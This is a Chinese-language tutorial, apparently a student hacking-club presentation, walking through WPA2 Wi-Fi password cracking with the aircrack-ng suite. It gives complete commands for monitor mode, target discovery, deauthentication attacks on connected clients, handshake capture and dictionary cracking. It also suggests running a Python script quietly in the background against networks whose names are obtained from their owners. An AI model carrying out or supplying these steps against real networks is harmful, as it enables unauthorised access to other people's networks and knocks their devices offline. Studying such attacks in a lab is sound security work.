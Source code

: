 # wifi: what's cracking? 文件說明

> Author: Junner
> Date: 12/05/2024
> Code: https://github.com/HackerSir/My-Waifu-Is-Not-Safe
> Description: [HackMd](https://hackmd.io/WEyS9iLSRje7boteEW4bWg)
> 簡報：https://hackmd.io/@JunnerX/My-Waifu-Is-Not-Safe-Presentation


## 大綱

> * [虛擬機設定](#For-Connection-network-configuration)
> * [用指令攻擊](#Crack-a-wifi-password-using-commands)
> * [用 Python 攻擊](#Crack-a-wifi-password-with-Python-scripts)


## 所有指令

用 root 權限執行，密碼是 `kali`。

打開 managed mode 與測試
```bash=
ifconfig wlan0 down
airmon-ng check kill
iwconfig wlan0 mode monitor
ifconfig wlan0 up
airmon-ng start wlan0
aireplay-ng --test wlan0
```

獲得目標的 MAC 與 ACK
```bash=
airodump-ng --essid alEx wlan0
airodump-ng --bssid 6A:D1:4D:7D:BE:72 -w /home/kali/Desktop/nets/test1/ wlan0
aireplay-ng -0 20 -a 6A:D1:4D:7D:BE:72 -c 50:C2:E8:0B:44:55 wlan0
```
```bash=
aircrack-ng -a2 -b 6A:D1:4D:7D:BE:72 -w /home/kali/Desktop/passwords/10-million-password-list-top-1000000.txt /home/kali/Desktop/nets/test1/*.cap
```
## 網路設定

用管理員權限運行 VMware Workstation

當 usb 裝置插入時，這個視窗將會彈出。選擇 `Connect to Virtual machine` > 選擇目標虛擬機器。

![圖片](https://hackmd.io/_uploads/HyYE0AqXyx.png)

`OK`
![圖片](https://hackmd.io/_uploads/ByDQCC5myx.png)

執行 `iwconfig`，會看到該裝置。
![圖片](https://hackmd.io/_uploads/BJgmRA971l.png)

如果你透過執行「lsusb」看到該設備名稱，但沒有看到它出現在「iwconfig」中，請重複執行上述步驟，或檢查下方的網路設定。如果執行了多次但仍看不到該設備，請重新啟動虛擬機器。

設定方式：
`Tabs` >
![圖片](https://hackmd.io/_uploads/rympRA9Xyl.png)

`Edit` > `Virtual Network Editor`
不需要 bridge
![圖片](https://hackmd.io/_uploads/r1UOR0qmyl.png)

`VM` > `Settings` > `Network Adapter`
通常 usb 裝置名稱會識別為 `VMnet0`
![圖片](https://hackmd.io/_uploads/H1qeJko7Jx.png)

這樣設定就完成了。享受你的攻擊之旅吧！

## 用指令攻擊

首先，終端機要開啟 root 權限，密碼是 `kali`。

### 打開 Monitor Mode

為了攻擊，需要為 usb 裝置打開 monitor mode

```bash=
ifconfig wlan0 down
```

運行這個後，設備將會連不到網路。
```bash=2
airmon-ng check kill
```


```bash=3
iwconfig wlan0 mode monitor
```
如果看到警告，無視他就好。
![圖片](https://hackmd.io/_uploads/S1VqYys71e.png)

```bash=4
ifconfig wlan0 up
airmon-ng start wlan0
```

為了測試 monitor mode 已經成功啟用：
```bash=6
aireplay-ng --test wlan0
```

如果看到「Injection is working!」，那就是成功了。
![圖片](https://hackmd.io/_uploads/ryDatyj71g.png)

### 關閉 monitor mode 和恢復網路連線

```bash=
airmon-ng stop wlan0
ifconfig wlan0 down
```

因為你關閉了網路管理員，要恢復的話就跑：
```bash=3
service NetworkManager restart
```

### 攻擊程序

#### 1. 獲得目標 BSSID

For ex, the target has name `alEx`.
```
airodump-ng --essid alEx wlan0
```
You'll see the `BSSID` at the top left. `Ctrl+C` to interrupt it and copy the address: `6A:D1:4D:7D:BE:72`
![圖片](https://hackmd.io/_uploads/rkRyAJjQJl.png)

#### 獲得連線到目標的裝置的 BSSID
```
airodump-ng --bssid 6A:D1:4D:7D:BE:72 -c 1 -w /home/kali/Desktop/nets/test1 wlan0
```

檔案會儲存在 `/home/kali/Desktop/nets/`，並有著 `test1` 的前綴。

等待 5 至 30 秒，`STATION` 的下方將會出現一些地址。
<!-- By the way, the channel `CH` should stay at `1`. -->
![圖片](https://hackmd.io/_uploads/S1SbGesQke.png)

#### 3. get ACK

開啟另外一個終端機，而上一個執行的指令必須還在執行中，毋須關閉。
```
aireplay-ng -0 20 -a 6A:D1:4D:7D:BE:72 -c 50:C2:E8:0B:44:55 wlan0
```

#### 4. EXPLOSION!!

ACK 的副檔名是 `.cap`。通常最新的檔案的名稱會包含著最大的數字。
![圖片](https://hackmd.io/_uploads/SJRS_ximyl.png)

然後！爆破！

```
aircrack-ng -a2 -b 6A:D1:4D:7D:BE:72 -w /home/kali/Desktop/passwords/10-million-password-list-top-1000000.txt /home/kali/Desktop/nets/test1*.cap
```

![圖片](https://hackmd.io/_uploads/SJQYkZs7Jx.png)

## 用 Python 爆破密碼。

基本上大部分情況都會被處理，如果還是爆開就...用上面的指令打，因為用上面的指令還比較有展示性一點，但如果用 script 就能悄悄的攻擊，兩種不一樣的方式。

所以如果可以的話，先問他們 wifi 名稱，放到 script 裡面讓他背景執行。如果真的不行的話再手動打，現場展示。


基本上會改的部分就是 `target`、`file_path`、`passwordSet_path`。

主要：
* `target`：要攻擊的目標名稱。

其他還有像是：
* `file_path`：要儲存的檔案**路徑**。
* `passwordSet_path`：密碼集文字檔的所在地。

![圖片](https://hackmd.io/_uploads/BJkkIEy4Jg.png)


